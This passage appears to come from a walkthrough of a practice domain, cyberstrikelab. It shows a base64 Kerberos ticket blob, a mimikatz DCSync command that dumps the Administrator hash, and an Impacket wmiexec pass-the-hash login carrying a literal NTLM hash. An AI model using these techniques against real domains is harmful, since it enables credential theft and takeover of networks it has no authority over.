A4BqiBctRX/ZMXLcz++55SqSLTg8Xbm01EXTVnQHU6XTdOPs+4ZRrXEo+r8I+hT0aQegwcDCCt1WseFh92ut06Y1zfyNcxcffBZPB3UA0Te49BxN493RdwbUw4RIObPUoucAW4r7i0p6Nk0MxXt+nnYHuKesYu+GhOStENyVjmbIcSLqd4cJNrBAX3cNZmCtSFGSuKahub4Lb7k0WoRZo4HzMIHwoAMCAQCigegEgeV9geIwgd+ggdwwgdkwgdagKzApoAMCARKhIgQgo+1mN3aSVBbGT0Sp9kwHxXFCpO+xUDGciGtbd189KomhFBsSQ1lCRVJTVFJJS0VMQUIuQ09NohAwDqADAgEBoQcwBRsDREMkowcDBQBgoQAApREYDzIwMjUwNTI1MDUwNDQwWqYRGA8yMDI1MDUyNTE1MDQ0MFqnERgPMjAyNTA2MDEwNTA0NDBaqBQbEkNZQkVSU1RSSUtFTEFCLkNPTaknMCWgAwIBAqEeMBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09N
```

```
# mimikatz导出域内用户Hash
mimikatz.exe "lsadump::dcsync /domain:cyberstrikelab.com /user:cyberstrikelab\Administrator" "exit"
```

```
python3 wmiexec.py -hashes :9d880175be3fc0e75ebb9686f482cfa5 cyberstrike.com/administrator@10.5.5.66
```

​

​
